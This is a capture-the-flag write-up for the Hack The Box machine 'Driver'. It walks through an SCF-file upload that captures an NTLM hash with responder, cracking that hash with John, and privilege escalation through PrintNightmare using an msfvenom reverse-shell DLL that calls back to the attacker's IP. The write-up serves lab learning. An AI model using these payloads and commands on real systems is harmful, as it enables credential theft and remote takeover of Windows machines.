




<p align="center"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/13531">MrR3boot</a></p>

[](https://app.hackthebox.eu/profile/184235)
<br>
<a href=https://www.buymeacoffee.com/f4T1H21>
  
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-24T19:06:51
|_  start_date: 2022-01-24T18:23:54
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

## `445/tcp` SMB service
We can neither log in with dumb credentials nor without credentials.
So there's nothing to do except bruteforce and this is not our first scope though.

## `135/tcp` MSRPC service
### Impacket's `rpcdump` result
We see the box can be vulnerable to PrintNightmare (CVE-2021-1675)

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-rpcdump @10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

## `80/tcp` HTTP service
`driver.htb` asks us for an admin password at first and accepts `admin:admin`.

Firmware Update button forwards us to `/fw_up.php`, and we see a file upload section there.



At that point, the initial thought of mine was uploading a php reverse shell as you can expect. But no uploads directory existence, so it didn't make sense.

At this point, I learnt a new attack vector for SMB! Grabbing user's password hashes using `scf` files.

# Foothold: Grab user authentication hash using `smb` path in `scf` files

Let's have a look at what an `scf` file actually is.
>SCF stands for Shell Command File and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The "Show Desktop" shortcut we all use on a daily basis is an SCF file.

This files are also able to connect an smb share if any given.<br>
The blog post below explains the metodology of abusing this behaviour step by step.

https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

- Start an smb server (or a pre-configured relay, such as `responder`).
- Create an scf file.
- Upload it.
- File gets executed as soon as a user browses in the directory of the file. (Look at the squared area in above screenshot)
- Get your NTLM user hash from your server.

By the way, there's a feature in windows (in linux too) that puts files starts with an '@' symbol before other files. And works for folders too.

#### @f4T1H.scf
```
[Shell]
Command=2
IconFile=\\10.10.14.62\doesnot\exists
[Taskbar]
Command=ToggleDesktop
```

#### `responder -w --lm -v -I tun0`

After uploading the file, we receive an authentication attempt in our `responder`.



### John The Ripper
```
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# john -w=/usr/share/wordlists/rockyou.txt ntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2022-01-25 07:45) 25.00g/s 793600p/s 793600c/s 793600C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

# Privilege Escalation: PrintNightmare (CVE-2021-1675)
First things first, generate a windows reverse shell payload using `msfvenom`.

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# msfvenom -ax64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.42 LPORT=2121 -f dll -o revshell.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: revshell.dll
```

Second things second, clone impacket implementation of PrintNightmare from: https://github.com/cube0x0/CVE-2021-1675

Third things third, start an smb server of your choice (mine is impacket :).

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-smbserver -ip 10.10.16.42 f4T1H .             
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Fourth thing fourth, run the exploit with the proper positional arguments.
```console
┌──(root💀f4T1H)-[~/hackthebox/driver/CVE-2021-1675]
└─# python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 '\\10.10.16.42\f4T1H\revshell.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.16.42\f4T1H\revshell.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```



---

# Resources

|__`SMB SCF file attacks`__|__https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/__|
|:-|:-|
|__`CVE-2021-1675 PrintNightmare`__|__https://github.com/cube0x0/CVE-2021-1675__|

<br>

___─ Written by f4T1H ─___
